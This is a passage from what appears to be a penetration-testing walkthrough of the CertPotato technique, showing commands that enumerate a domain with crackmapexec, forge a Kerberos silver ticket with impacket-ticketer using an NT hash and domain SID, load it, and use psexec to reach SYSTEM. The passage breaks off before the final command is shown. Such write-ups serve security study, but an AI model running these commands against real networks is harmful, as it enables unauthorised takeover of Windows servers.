 - The full domain name can be obtained with crackmapexec:
```bash
crackmapexec smb 192.168.1.1 2>/dev/null
```
![full_domain](/assets/img/CertPotato/full_domain.png)

Once we have these elements, we can create our silver ticket using **impacket-ticketer**:
```bash
impacket-ticketer -nthash fde6a3d6d011d112795661ebe7d8e66a -domain namek.local -domain-sid S-1-5-21-72261593-2540281417-569969885 -spn cifs/iis.namek.local Cellmax
```
![silver_ticket](/assets/img/CertPotato/silver_ticket.png)

Let's load into our Kerberos ticket using the export command:

```bash
export KRB5CCNAME=Cellmax.ccache
klist
```
![load_silver_ticket](/assets/img/CertPotato/load_silver_ticket.png)

And we can now use the psexec script from the impacket toolkit with the -k and -no-
pass parameters to authenticate to the service using our silver ticket. We are now **SYSTEM** on the server:
